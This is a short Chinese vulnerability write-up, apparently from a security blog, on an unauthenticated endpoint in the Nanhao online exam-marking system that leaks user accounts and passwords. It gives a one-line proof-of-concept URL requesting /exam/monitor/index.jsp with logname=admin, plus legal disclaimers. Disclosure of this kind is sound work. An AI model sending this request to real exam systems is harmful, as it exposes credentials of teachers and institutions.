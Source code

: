 #  【漏洞复现】南昊网上阅卷系统/exam/monitor/index.jsp接口未授权访问  
什么安全  什么安全   2025-07-08 09:06  
  
    
请勿利用  
文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接  
或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责  
！    
## 产品描述  
  
南昊网上阅卷系统是一款专为教育领域设计的在线阅卷工具，它能够帮助教师和考试机构实现高效、准确的试卷评阅。  
## 漏洞描述  
  
  
系统  
/exam/monitor/index.jsp存在未授权访问，远程攻击者可通过该接口获取用户账号与密码，造成信息泄露。  
## Poc  
  
```
http://127.0.0.1/exam/monitor/index.jsp?logname=admin
```  
  
  
## 漏洞复现  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/w0DeFbFI15w2WtvYFbw9eFYu5sibOVaEMD0fw8lTkGFYoQa8jm8G3XQI5cia0Y5hl9PRwR26ia4DryszBg9T616fQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
小  
知  
识  
  
  
  
  
**依据《刑法》第285条第3款的规定，犯提供非法侵入或者控制计算机信息罪的，处3年以下有期徒刑或者****拘役****，并处或者单处****罚金****;情节特别严重的，处3年以上7年以下有期徒刑，并处罚金。**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Gn0JbCnxttRbj4Mib3fcSfwr0tP4UxXtjf47HFwaZcgwWStzGNLNMlGKQJz902fHTT8PCfOwHedLqarXh0eC9KQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声  
明  
  
  
  
**本文提供的技术参数仅供学习或运维人员对内部系统进行测试提供参考，未经授权请勿用本文提供的技术进行破坏性测试，利用此文提供的信息造成的直接或间接损失，由使用者承担。**  
  
  
  
  
